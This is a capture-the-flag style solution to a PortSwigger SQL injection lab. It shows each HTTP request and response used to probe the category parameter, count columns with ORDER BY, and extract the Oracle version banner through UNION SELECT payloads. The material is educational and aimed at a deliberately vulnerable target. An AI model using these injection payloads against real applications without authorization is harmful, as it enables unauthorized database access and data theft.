 # Lab 07: SQL injection attack, querying the database type and version on Oracle

## Description

 This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a `UNION` attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

---

## Solution

The product category filter is the `category` HTTP query parameter. We can confirm that it is vulnerable to SQL injection as the following request leads to an HTTP 500 error.

```http
GET /filter?category=Gifts' HTTP/1.1
Host: acfc1f8d1e9b23b980bf006f004800b5.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 21

Internal Server Error
```

The goal of the exercise is to display the database version string on the web page. It appears that the resultant rows from the original `SELECT` query are rendered on the web page. Thus, we can attempt to leverage a `UNION` to add additional rows to the result of the original `SELECT` query, which will then be rendered on the web page.

The first step is to determine how many columns are being returned by the original `SELECT` query. Then we'll want to determine which of those columns is of type string, as the database version is likely a string as well and the types need to match for the `UNION` to work. Once the `UNION` is in place, we can iterate through the different syntaxes for each of the major database versions to figure out which will work and give us the desired output.

### Determining the number of columns

We'll use the incremental `ORDER BY` method to determine the number of columns in the resultant rows from the original `SELECT` query.

#### `ORDER BY 1` - Success

```http
GET /filter?category=Gifts'+ORDER+BY+1-- HTTP/1.1
Host: acfc1f8d1e9b23b980bf006f004800b5.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 8421
...
```

#### `ORDER BY 2` - Success

```http
GET /filter?category=Gifts'+ORDER+BY+2-- HTTP/1.1
Host: acfc1f8d1e9b23b980bf006f004800b5.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 8421
...
```

#### `ORDER BY 3` - Error

```http
GET /filter?category=Gifts'+ORDER+BY+3-- HTTP/1.1
Host: acfc1f8d1e9b23b980bf006f004800b5.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 21

Internal Server Error
```

Ordering by column index 3 produces an HTTP 500 error, which indicates that there are only 2 columns in the resultant rows from the original `SELECT` query. 

### Determining the column data types

To determine the data type of the two columns, and to specifically determine whether either of them is type string, we can both analyze the ordering of the data items from the previous `ORDER BY` attempts in the web page and we can use the incremental `UNION SELECT NULL` method.

When we ordered the output by column index 1 above, it appeared to sort the data items by the product name, indicating that product name is likely in index 1. Product name is most probably a string, and thus we can conclude that column 1 is of data type string.

When we orered the output by column index 2 above, it appeared to sort the data items by the product description, indicating that the product description is likely index 2. Product description is most probably a string, and thus we can conclude that column 2 is of data type string.

Employing the incremental `UNION SELECT NULL` method confirms these findings.

That means either column will work in our `UNION` injection to display the database version string. We will use column 2, since its output is placed in a table data HTML tag in the web page, as opposed to a table header HTML tag, though we could do either.

### Determining database version

With the number of columns from the resultant rows of the original `SELECT` query and the fact that column 2 is of type string in hand, we are ready to execute our `UNION` attack. We will iterate through the version query syntax for all of the major database versions.

#### MySQL & MSSQL - Error

```http
GET /filter?category=Gifts'+UNION+SELECT+NULL,@@version-- HTTP/1.1
Host: acfc1f8d1e9b23b980bf006f004800b5.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 21

Internal Server Error
```

#### PostgreSQL - Error

```http
GET /filter?category=Gifts'+UNION+SELECT+NULL,version()-- HTTP/1.1
Host: acfc1f8d1e9b23b980bf006f004800b5.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 21

Internal Server Error
```

#### Oracle - Success

```http
GET /filter?category=Gifts'+UNION+SELECT+NULL,BANNER+FROM+v$version-- HTTP/1.1
Host: acfc1f8d1e9b23b980bf006f004800b5.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```html
<tr>
	<td>CORE	11.2.0.2.0	Production</td>
</tr>
<tr>
	<td>NLSRTL Version 11.2.0.2.0 - Production</td>
</tr>
<tr>
	<td>Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production</td>
</tr>
<tr>
	<td>PL/SQL Release 11.2.0.2.0 - Production</td>
</tr>
<tr>
	<td>TNS for Linux: Version 11.2.0.2.0 - Production</td>
</tr>
```

Oracle's version query executed successfully, indicating `Oracle version 11g Express Edition Release 11.2.0.2.0`. Knowledge of the underlying database will prove very useful in further exploitation of this SQL injection vulnerability.

It's important to note that the reason the MySQL, MSSQL, and PostgreSQL version queries above didn't work wasn't primarily because the version query syntax was incorrect, but because Oracle requries all `UNION SELECT` queries to specify a target table using the `FROM` operator. Since those queries didn't specify a target table, they failed. However, had they specified a target table, they would have failed because the version query syntax was incorrect.

```sql
SELECT name, description FROM products WHERE category = 'Pets' UNION SELECT 'a',NULL#'
```